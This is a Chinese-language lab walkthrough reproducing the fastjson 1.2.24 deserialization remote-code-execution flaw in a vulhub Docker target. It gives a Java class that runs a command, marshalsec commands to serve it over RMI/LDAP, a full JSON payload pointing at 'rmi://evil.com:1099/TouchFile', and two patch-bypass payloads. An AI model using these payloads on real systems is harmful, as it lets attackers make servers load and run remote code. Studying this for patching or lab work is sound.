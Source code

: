 ## fastjson 1.2.24 反序列化导致任意命令执行漏洞复现

#### 1.背景知识

N/D服务是Naming Service 和 Directory Service ，就是JNDI的命名服务和目录服务。

JNDI，JNDI即Java Naming and Directory Interface，翻译成中文就Java命令和目录接口，2016年的BlackHat大会上web议题重点讲到，JNDI提供了很多实现方式，主要有RMI，LDAP，CORBA等。

RMI, Remote Method Invocation 是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。

LDAP是开放的Internet标准，支持跨平台的Internet协议，在业界中得到广泛认可的，并且市场上或者开源社区上的大多产品都加入了对LDAP的支持，因此对于这类系统，不需单独定制，只需要通过LDAP做简单的配置就可以与服务器做认证交互。“简单粗暴”，可以大大降低重复开发和对接的成本。

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

#### 2.搭建有fastjson漏洞的靶机环境

[vulhub镜像](https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.24-rce)

在服务器安装docker环境模拟有漏洞的fastjson服务器： ```docker-compose up -d```

docker环境是Java 8u102，没有com.sun.jndi.rmi.object.trustURLCodebase的限制，我们可以使用com.sun.rowset.JdbcRowSetImpl的利用链，借助JNDI注入来执行命令

启动后，```http://vps1:8090``` 即可看到JSON格式的输出,代表环境搭建成功。

#### 3.编译恶意类，放在vps上

javac 编译恶意类(据说jdk1.6 编译效果更佳)

	// javac TouchFile.java
	import java.lang.Runtime;
	import java.lang.Process;
	
	public class TouchFile {
	    static {
	        try {
	            Runtime rt = Runtime.getRuntime();
	            String[] commands = {"touch", "/tmp/success"};
	            Process pc = rt.exec(commands);
	            pc.waitFor();
	        } catch (Exception e) {
	            // do nothing
	        }
	    }
	}

vps 启动一个承载恶意类的服务器，比如tomcat/apache，这里我将编译完的恶意类放在apache的根目录。

浏览器输入 ```http://vps2/TouchFile.class``` 即可下载，代表恶意类配置完成。 


#### 3.搭建vps 模拟RMI/LDAP服务器，

marshalsec 是一个可以方便的开启 RMI 和 LDAP 服务的工具。

	git clone https://github.com/mbechler/marshalsec

	cd marshalsec

maven 编译为 可执行jar包。

	mvn clean package -DskipTests

在vps启动RMI服务

	java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://VPS:80/#TouchFile 1099


![](rmi.jpg)

这里的 ```/VPS:80``` 为 apache 服务器的web路径

1099 是 RMI服务的默认端口，所以不填的时候默认为1099，也可以指定任意未占用端口。

另外，我用的腾讯云vps还要开启防火墙入站规则，否则1099无法被外界访问

	firewall-cmd --zone=public --add-port=1099/tcp --permanent
	
	firewall-cmd --reload
	
	firewall-cmd --list-all

#### 4.向靶场服务器发送payload，json参数里请求RMI的地址

	POST / HTTP/1.1
	Host: target_ip:8090
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/json
	Content-Length: 160
	
	{
	    "b":{
	        "@type":"com.sun.rowset.JdbcRowSetImpl",
	        "dataSourceName":"rmi://evil.com:1099/TouchFile",
	        "autoCommit":true
	    }
	}

在本地发包即可，目的ip为远程靶机，调用RMI 为恶意vps地址

![](fastjson1.2.24-poc.jpg)

恶意服务器marshalsec回显

![](marshalsec.jpg)

进入靶机docker查看命令执行结果

![](res.jpg)

#### 5.补充ladp方式payload

payload 相同，只是用ldap服务。

![](ldap.jpg)

ldap服务器回显

![](ldapserver.jpg)

结果验证

![](res2.jpg)


#### 6.影响版本

基于RMI的利用方式

适用jdk版本：JDK 6u132, JDK 7u122, JDK 8u113之前。

基于ldap的利用方式 (ldap 默认端口 1389)

适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。

基于BeanFactory的利用方式

适用jdk版本：JDK 11.0.1、8u191、7u201、6u211以后。

利用前提：因为这个利用方式需要借助服务器本地的类，而这个类在tomcat的jar包里面，一般情况下只能在tomcat上可以利用成功。

[参考资料](https://www.freebuf.com/vuls/208339.html)


#### 7.补丁绕过

1.依赖于ibatis的payload,1.2.45的绕过：

	{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
	 "properties"{"data_source":"rmi://localhost:1099/Exploit"}}

2.绕过@type检查

	{
		"@type":"Lcom.sun.rowset.RowSetImpl;",
	 	"dataSourceName":"rmi://localhost:1099/Exploit",
 	 	"autoCommit":true
	}


